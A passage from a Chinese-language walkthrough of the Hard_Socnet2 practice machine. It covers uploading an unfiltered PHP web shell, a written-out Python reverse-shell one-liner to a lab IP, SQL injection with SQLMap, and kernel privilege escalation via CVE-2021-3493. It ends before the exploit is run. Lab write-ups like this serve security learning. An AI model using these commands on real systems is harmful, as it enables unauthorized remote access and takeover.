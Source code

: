 ### 1.2 拿到 Shell

1. 但是发现可以文件上传，传了个 PHP 后门，结果没有任何过滤，直接上传成功且命令成功执行。kali 中自带的 WebShell 位置：`/usr/share/webshells/`。
    结果如下：
    ![image-20240124141729685](Hard_Socnet2/image-20240124141729685.png)

2. 查了一下，目标靶机有 NC，有 Python。直接获得 Shell：
    `cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

3. 视频中还指出了 search 框有 SQL 注入的漏洞，可以利用 SQLMap 将所有的账号和密码给破解出来。

### 1.3 提权 -CVE-2021-3493 - 一步到位

1. 尝试提权，先从内核尝试提权，`uname -a` 和 `lsb_release -a` 查看内核和 OS 版本：
    ![image-20240124151501564](Hard_Socnet2/image-20240124151501564.png)

2. 使用 CVE-2021-3493 进行提权，EXP 地址：

    > github.com/briskets/CVE-2021-3493

    靶机上有 gcc 环境，那就直接 .c 文件传过去然后赋权执行：